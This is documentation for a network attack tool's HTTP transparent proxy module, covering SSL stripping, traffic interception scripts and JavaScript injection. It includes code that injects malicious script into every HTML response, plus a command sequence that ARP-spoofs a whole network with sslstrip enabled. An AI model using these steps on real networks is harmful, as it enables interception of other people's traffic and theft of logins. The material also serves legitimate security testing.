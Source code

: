 ```yaml
---
title: "http.proxy"
date: 2019-02-25T13:17:05+01:00
draft: false
weight: 4
---
```


A full featured HTTP transparent proxy that can be scripted using javascript modules. If used together with a spoofer, all HTTP traffic will be redirected to it and it will automatically handle port redirections as needed.

### Commands

| command | description |
|---------|-------------|
| `http.proxy on` | Start the HTTP proxy. |
| `http.proxy off` | Stop the HTTP proxy. |

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `http.port` | `80` | HTTP port to redirect when the proxy is activated. |
| `http.proxy.address` | `<interface address>` | Address to bind the HTTP proxy to. |
| `http.proxy.port` | `8080` | Port to bind the HTTP proxy to. |
| `http.proxy.sslstrip` | `false` | Enable or disable SSL stripping. |
| `http.proxy.script` | | Path of a proxy module script. |
| `http.proxy.injectjs` | | URL, path or javascript code to inject into every HTML page. |

### Modules

The `http.proxy` and `https.proxy` modules can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
```

Modules can change the `req` request and `res` response objects, for instance the [web-override.cap caplet](https://github.com/bettercap/caplets/blob/master/web-override.cap) is using the `onRequest` function in order to override every request before it is executed with a fake response:

```js
function onRequest(req, res) {
    res.Status      = 200;
    res.ContentType = "text/html";
    res.Body        = readFile("caplets/www/index.html");
    headers         = res.Headers.split("\r\n")
    for (var i = 0; i < headers.length; i++) {
        header_name = headers[i].replace(/:.*/, "")
        res.RemoveHeader(header_name);
    }
    res.SetHeader("Connection", "close");
}
```

The [login-man-abuse.cap caplet](https://github.com/bettercap/caplets/blob/master/login-man-abuse.cap) instead will use the `onResponse` handler to inject its malicious javascript file in every html response:

```js
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript">' + "\n" +
                    AbuserJavascript +
                '</script>' +
                '</head>'
            ); 
        }
    }
}
```

#### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")` | Log a message in the interactive session (its level will be `DEBUG`). |
| `log_info("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `log_warn("message")` | Log a message in the interactive session (its level will be `WARNING`). |
| `log_error("message")` | Log a message in the interactive session (its level will be `ERROR`). |
| `log_fatal("message")` | Log a message in the interactive session (its level will be `FATAL`). |
| `log("message")` | Shortcut for `log_info("message")`. |
| `btoa("message")` | Encode a message to base64. |
| `atob("bWVzc2FnZQ==")` | Decode a message from base64. |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

Will ARP spoof the whole network, enable sslstrip and inject a "Hello World" javascript alert to every HTML page being visited:

```sh
set http.proxy.injectjs alert("Hello World")
set http.proxy.sslstrip true

http.proxy on
arp.spoof on
```
